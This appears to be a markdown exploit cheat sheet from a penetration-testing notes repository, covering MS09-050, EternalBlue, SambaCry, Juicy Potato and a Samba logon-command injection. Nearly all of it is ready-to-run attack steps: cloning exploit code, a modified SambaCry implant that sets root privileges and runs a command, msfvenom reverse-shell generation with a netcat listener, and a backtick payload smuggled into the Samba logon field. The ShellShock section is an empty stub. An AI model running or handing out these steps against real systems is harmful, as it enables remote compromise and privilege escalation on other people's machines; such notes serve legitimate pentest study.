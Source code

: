 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

# Exploit
## Table of Contents
* [MS09-050: SMBv2 Command Value Vulnerability](#ms09-050-smbv2-command-value-vulnerability)
  * [CVE-2009-3103](#cve-2009-2532)
* [EternalBlue](#eternalblue)
  * [CVE-2017-0144](#cve-2017-0144)
* [SambaCry](#sambacry)
  * [CVE-2017-7494](#cve-2017-7494)
* [ShellShock](#shellshock)
  * [CVE-2014-6271](#cve-2014-6271)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

# MS09_050: SMBv2 Command Value Vulnerability
## CVE-2009-3103
This vulnerability impacts Windows Server 2008 SP1 32-bit as well as Windows Vista SP1/SP2 and Windows 7. 
```bash
nmap $TARGET -p445 --script smb-vuln-cve2009-3103
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

# EternalBlue
## CVE-2017-0144
This vulnerability impacts ???. Exploiting it requires access to a Named Pipe (NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes). 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```

# SambaCry
## CVE-2017-7494
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

# ShellShock
## CVE-2014-6271
```bash
# shellshock via smtp
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
